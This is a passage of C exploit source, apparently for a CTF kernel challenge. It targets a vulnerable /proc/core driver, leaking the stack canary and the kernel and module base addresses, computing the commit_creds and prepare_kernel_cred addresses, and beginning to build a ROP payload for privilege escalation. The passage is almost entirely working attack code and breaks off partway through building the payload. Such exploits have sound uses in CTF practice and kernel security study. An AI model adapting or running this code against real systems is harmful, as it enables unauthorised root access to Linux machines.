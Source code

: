```c

void core_write(int fd,char *ptr,int size)
{
	write(fd,ptr,size);
}

void core_copy(int fd, uint64_t size)
{
	ioctl(fd,0x6677889A,size);	
}
int main()
{
	int i;
	int fd;
	char buf[0x40];
	uint64_t *buff=(uint64_t*)buf;
	uint64_t canary;
	uint64_t D_base;
	uint64_t K_base;
	uint64_t commit_creds;
	uint64_t prepare_kernel_cred;
	uint64_t *payload;

	save_stats();
	memset(buf,0,0x40);
	fd = open("/proc/core",O_RDWR);
	if(fd == -1)
	{
		printf("[!] open fails!");
		exit(-1);
	}
	setoff(fd,0x40);
	core_read(fd,buf);
/*
	for(int i=0;i<8;i++)
	{
		printf("buf[%d] => %p\n",i,buff[i]);
	}

*/
	canary = buff[0];
	D_base = buff[2] - 0x19b;
	K_base = buff[4] - 0x1dd6d1;

#define D(addr) (uint64_t)((D_base)+(addr))
#define K(addr) (uint64_t)((K_base)+(addr)-(0xFFFFFFFF81000000))

	commit_creds = K(0xffffffff8109c8e0);
	prepare_kernel_cred = K(0xffffffff8109cce0);
	
	printf("[+] canary => 0x%llx\n",canary);
	printf("[+] D_base => 0x%llx\n",D_base);
	printf("[+] K_base => 0x%llx\n",K_base);
	printf("[+] c_cred => 0x%llx\n",commit_creds);
	printf("[+] p_cred => 0x%llx\n",prepare_kernel_cred);
	// getchar();

	payload = malloc(0x800);
	memset(payload,0,0x800);
	
	for(i=0;i<8;i++)
	{
		payload[i]=0;
```
